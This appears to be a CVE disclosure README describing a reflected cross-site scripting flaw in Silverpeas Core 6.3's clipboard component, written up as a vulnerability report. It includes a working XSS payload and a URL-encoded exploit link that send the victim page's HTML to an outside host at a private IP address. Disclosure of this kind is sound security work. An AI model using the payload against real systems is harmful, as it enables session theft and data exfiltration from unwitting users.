

# CVE-2024-29392 XSS bypass CSP

Silverpeas Core 6.3 (https://github.com/Silverpeas/Silverpeas-Core) is vulnerable to Cross Site Scripting (XSS) via ClipboardSessionController.

[Vulnerability Type]
Cross Site Scripting (XSS)

[Vendor of Product]
Silverpeas

[Affected Product Code Base]
Silverpeas Core - 6.3.*

[Affected Component]
ClipboardSessionController

[Attack Vectors]
Reflect XSS in GET request would allow a non-authenticator attacker can send a request to admin. When click, attacker can obtain sessionID, this will also bypass the CSP

Payload: <img src=x onerror="this.src='http://192.168.0.204:8888/?'+document.documentElement.outerHTML; this.removeAttribute('onerror');"

http://{LINK}/silverpeas/Rclipboard/jsp/Idle.jsp?%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%32%30%34%3a%38%38%38%38%2f%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%6f%75%74%65%72%48%54%4d%4c%3b%20%74%68%69%73%2e%72%65%6d%6f%76%65%41%74%74%72%69%62%75%74%65%28%27%6f%6e%65%72%72%6f%72%27%29%3b%22%3e=aE

[Reference]
https://phulelouch.github.io/

[Discoverer]
phulelouch (Harvey Spec)

[Video PoC]
https://drive.google.com/file/d/1QQKhURt-RjgnneILSTyPwhrs_wfSK5UI/view?usp=sharing

